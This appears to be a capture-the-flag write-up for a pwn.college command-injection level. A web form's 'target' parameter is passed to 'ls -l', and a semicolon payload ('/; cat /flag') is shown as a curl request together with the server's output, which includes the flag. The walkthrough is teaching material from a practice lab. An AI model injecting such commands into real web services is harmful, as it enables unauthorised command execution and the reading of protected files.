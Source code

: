
The challenge, by default lists the contents of `/challenge`.
We have control over the directory that it lists via the `target` parameter.

```
## Request:
curl "challenge.localhost:80/mission?target=/"

## Resultant command:
ls -l /
```

### Command injection

#### Semicolon (`;`)

If we use the semicolon `;` character, it ends the current shell statement and begins a new shell statement.

```
## Request:
curl "challenge.localhost:80/mission?target=/; cat /flag"

## Resultant command:
ls -l /;
cat /flag
```

```
hacker@web-security~cmdi-1:/$ curl "challenge.localhost:80/mission?target=/;%20cat%20/flag"

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/mission"><input type=text name=target><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l /; cat /flag:</b><br>
        <pre>total 64
lrwxrwxrwx    1 root root    7 Apr  4 02:03 bin -> usr/bin
drwxr-xr-x    2 root root 4096 Apr 15  2020 boot
drwxr-xr-x    1 root root 4096 Jun 10 14:53 challenge
drwxr-xr-x    6 root root  380 Jun 10 14:53 dev
drwxr-xr-x    1 root root 4096 Jun 10 14:53 etc
-r--------    1 root root   58 Jun 10 14:53 flag
drwxr-xr-x    1 root root 4096 May  1 03:58 home
lrwxrwxrwx    1 root root    7 Apr  4 02:03 lib -> usr/lib
lrwxrwxrwx    1 root root    9 Apr  4 02:03 lib32 -> usr/lib32
lrwxrwxrwx    1 root root    9 Apr  4 02:03 lib64 -> usr/lib64
lrwxrwxrwx    1 root root   10 Apr  4 02:03 libx32 -> usr/libx32
drwxr-xr-x    2 root root 4096 Apr  4 02:03 media
drwxr-xr-x    2 root root 4096 Apr  4 02:03 mnt
drwxr-xr-x    1 root root   16 Oct 26  2024 nix
drwxr-xr-x    1 root root 4096 May  1 03:58 opt
dr-xr-xr-x 2495 root root    0 Jun 10 14:53 proc
drwx------    1 root root 4096 May  1 03:58 root
drwxr-xr-x    1 root root 4096 Jun 10 14:53 run
lrwxrwxrwx    1 root root    8 Apr  4 02:03 sbin -> usr/sbin
drwxr-xr-x    2 root root 4096 Apr  4 02:03 srv
dr-xr-xr-x   13 root root    0 Dec 13 06:06 sys
drwxrwxrwt    1 root root 4096 Jun 10 14:57 tmp
drwxr-xr-x    1 root root 4096 May  1 03:44 usr
drwxr-xr-x    1 root root 4096 May  1 03:43 var
pwn.college{gUm2UrsNXxOB3nnxPOrhhcHusWX.dVjN1YDL4ITM0EzW}
</pre>
        </body></html>
```
